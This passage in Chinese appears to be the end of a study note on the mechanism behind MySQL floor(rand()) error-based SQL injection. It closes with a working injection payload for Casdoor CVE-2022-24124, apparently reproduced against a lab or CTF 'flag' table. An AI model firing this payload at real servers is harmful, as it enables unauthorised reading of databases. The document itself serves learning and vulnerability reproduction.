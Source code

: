 ```bash
```

也就是说在实际渗透中，报错注入使用 floor(rand(14)\*2) 会比 rand(0) 效果要好。

而且如果说表中只存在一条数据，那这个时候报错注入就没法使用了，毕竟只有一条数据也不可能发生主键重复报错。

> 最后

### 对 floor 报错注入原理的学习缘起于 casdoor-CVE-2022-24124 注入漏洞 payload 复现的疑惑

```bash
/api/get-organizations? p=1&pageSize=10&value=e99nb&sortField=&sortOrder=&field=(select 123 from (select count (*), concat ((select (value) from flag limit 1),'~', floor (rand (14)*2)) x from (select 1 union all select 2) as t group by x) x)
```

参考文献：

[https://www.freebuf.com/articles/web/257881.html](https://www.freebuf.com/articles/web/257881.html)  
%% %% %% %%
